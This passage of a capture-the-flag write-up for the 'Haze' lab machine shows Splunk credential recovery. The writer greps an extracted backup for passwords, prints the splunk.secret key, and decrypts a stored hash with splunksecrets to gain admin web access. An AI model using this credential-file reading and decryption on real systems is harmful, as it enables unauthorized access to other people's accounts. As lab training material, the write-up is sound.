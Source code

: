 ## Investigating the Backup Archive

After we extracted the `zip-archive` we used `grep` to search for `passwords` and found another `hash` and `splunk secret` file.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Haze/files/extracted]
└─$ unzip splunk_backup_2024-08-06.zip
<--- CUT FOR BREVITY --->
```

```shell
┌──(kali㉿kali)-[/media/…/Haze/files/extracted/Splunk]
└─$ grep -iaR password
<--- CUT FOR BREVITY --->
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
<--- CUT FOR BREVITY --->
```

With the `repeated steps` from before we `recovered` another `password`.

```shell
┌──(kali㉿kali)-[/media/…/extracted/Splunk/etc/auth]
└─$ cat splunk.secret 
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

```shell
┌──(kali㉿kali)-[/media/…/extracted/Splunk/etc/auth]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $1$YDz8WfhoCWmf6aTRkA+QqUI=
/home/kali/.local/share/pipx/venvs/splunksecrets/lib/python3.13/site-packages/splunksecrets.py:48: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  algorithm = algorithms.ARC4(key)
Sp1unkadmin@2k24
```

| Password         |
| ---------------- |
| Sp1unkadmin@2k24 |

## Splunk Enterprise

The newly `recovered password` granted us now access to the `web GUI` of `Splunk Enterprise`.

- [http://haze.htb:8000/en-US/app/launcher/home](http://haze.htb:8000/en-US/app/launcher/home)

| Username | Password         |
| -------- | ---------------- |
| admin    | Sp1unkadmin@2k24 |
